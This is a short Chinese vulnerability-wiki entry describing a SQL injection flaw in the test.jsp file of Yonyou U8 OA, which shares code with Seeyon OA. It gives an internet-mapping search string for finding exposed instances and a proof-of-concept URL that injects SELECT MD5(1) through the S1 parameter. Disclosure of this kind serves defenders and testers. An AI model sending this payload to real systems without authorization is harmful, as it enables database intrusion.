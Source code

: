 # 用友 U8 OA test.jsp SQL注入漏洞

## 漏洞描述

用友 U8 OA test.jsp文件存在 SQL注入漏洞，由于与致远OA使用相同的文件，于是存在了同样的漏洞

## 漏洞影响

<a-checkbox checked>用友 U8 OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"用友U8-OA"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](/assets/PeiQi-Wiki/img/yongyou-11.png)

验证POC

```plain
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1))
```



![img](/assets/PeiQi-Wiki/img/yongyou-12.png)